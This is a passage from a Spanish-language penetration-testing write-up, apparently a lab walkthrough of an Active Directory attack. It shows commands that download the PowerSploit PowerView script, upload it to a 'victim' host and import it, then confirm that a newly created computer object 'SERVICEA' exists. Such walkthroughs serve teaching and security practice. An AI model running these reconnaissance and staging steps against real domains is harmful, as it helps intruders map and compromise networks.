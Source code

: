 Procederemos a descargarnos PowerView a nuestra Kali, la pasaremos al equipo víctima e importaremos el módulo para tener los comandos disponibles.

{% code overflow="wrap" %}
```powershell
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1

upload PowerView.ps1

Import-Module .\PowerView.ps1
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/871_vmware_G4sUuKRygT.png" alt=""><figcaption></figcaption></figure>

Comprobaremos que el objeto de ordenador que hemos creado "SERVICEA" se ha creado correctamente. Comprobamos que se ha creado sin problemas y tenemos el SID del objeto, lo cual es su identificador.

```powershell
Get-DomainComputer SERVICEA
```

<figure><img src="../../../.gitbook/assets/872_vmware_hW02qBDnFH.png" alt=""><figcaption></figcaption></figure>
